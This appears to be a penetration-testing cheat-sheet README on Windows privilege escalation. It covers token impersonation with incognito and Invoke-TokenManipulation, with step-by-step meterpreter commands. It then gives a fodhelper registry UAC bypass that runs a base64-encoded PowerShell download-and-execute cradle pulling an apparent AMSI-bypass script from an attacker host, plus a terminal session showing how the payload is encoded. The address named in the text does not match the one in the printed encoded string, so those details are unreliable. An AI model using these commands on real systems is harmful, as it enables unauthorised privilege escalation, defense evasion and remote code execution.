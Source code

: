 **IMPERSONATION:**

If you want to leverage the "SeImpersonatePrivilege", please refer to this [script](https://github.com/trike33/PEN-300-Code-Snippets/blob/main/Windows%20Credentials/PrintSpooferNet.cs), which is used in conjuction with [SpoolSample](https://github.com/leechristensen/SpoolSample).

However if you want to impersonate already logged in users, you can use [incognito](https://www.offsec.com/metasploit-unleashed/fun-incognito/)(through a meterpreter session) or this [powershell script](https://github.com/clymb3r/PowerShell/tree/master/Invoke-TokenManipulation).

**IMPORTANT NOTE TO TAKE IN MIND WHEN IMPERSONATING LOGONS:**  

What does matter is the logon type used to create the logon token. If a user connects using Network Logon (aka type 3 logon), the computer will not have any credentials for 
the user. Since the computer has no credentials associated with the token, it will not be possible to authenticate off-box with the token. All other logon types
should have credentials associated with them (such as Interactive logon, Service logon, Remote interactive logon, etc).

There are two types of tokens: delegate and impersonate. Delegate tokens are created for ‘interactive’ logons, such as logging into the machine or connecting to it via Remote Desktop. Impersonate tokens are for ‘non-interactive’ sessions, such as attaching a network drive or a domain logon script.
The other great things about tokens? They persist until a reboot. When a user logs off, their delegate token is reported as an impersonate token, but will still hold all of the rights of a delegate token.

TIP: File servers are virtual treasure troves of tokens since most file servers are used as network attached drives via domain logon scripts

(credit to Offsec and clymb3r for this awsome theory explanation).

**Incognito usage:**

Review this link: https://www.offsec.com/metasploit-unleashed/fun-incognito/

But in a nutshell these are the steps to take:

```
1st Migrate to a procces owned by the user we want to impersonate
2nd load incognito
3rd list_tokens -u
4th impersonate_token DEV\\trike   -> for example
5th shell or execute -f cmd.exe -i -t
```

**Invoke-TokenManipulation usage:**

Review its manual specified as comments at the first lines of the script, and this [link](https://clymb3r.wordpress.com/2013/11/03/powershell-and-token-impersonation/) that contains an overview on tokens and Windows authentication, An overview of what the script does, and problems/solutions encountered when building it and a demonstration of the script.

**UAC BYPASS IMPROVEMENT:**

From powershell throw this commands:

```
1. New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "powershell.exe -enc SQBFAFg...” -Force
2. New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyTypeString -Force
3. Execute fodhelper.exe -> if you are in a x86 process: c:\windows\sysnative\cmd.exe /c c:\windows\system32\fodhelper.exe
						             -> if you are in a x64 process: c:\windows\system32\fodhelper.exe
						
The base64 powershell encoded string was -> IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/amsi.txt')

Encoding a base64 powershell command from linux:

~# pwsh
❯ pwsh
PowerShell 7.2.1
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

   A new PowerShell stable release is available: v7.3.4 
   Upgrade now, or check out the release page at:       
     https://aka.ms/PowerShell-Release?tag=v7.3.4       

Welcome to Parrot OS 

┌[trike@root]-[11:11-12/07]-[/home/trike]
└╼$ $text = "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/amsi.txt')"
┌[trike@root]-[11:11-12/07]-[/home/trike]
└╼$ $bytes = [System.Text.Encoding]::Unicode.GetBytes($text)                                   ┌[trike@root]-[11:11-12/07]-[/home/trike]
└╼$ $EncodedText = [Convert]::ToBase64String($bytes)                                           ┌[trike@root]-[11:11-12/07]-[/home/trike]
└╼$ $EncodedText                                                                              SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADUALwBhAG0AcwBpAC4AdAB4AHQAJwApAA==
┌[trike@root]-[11:11-12/07]-[/home/trike]
└╼$ 
```

Additionally to this techniques I would recomend you to use the [WinPeas](https://github.com/carlospolop/PEASS-ng/) script in order to enumerate other posible privilege escalation avenues.
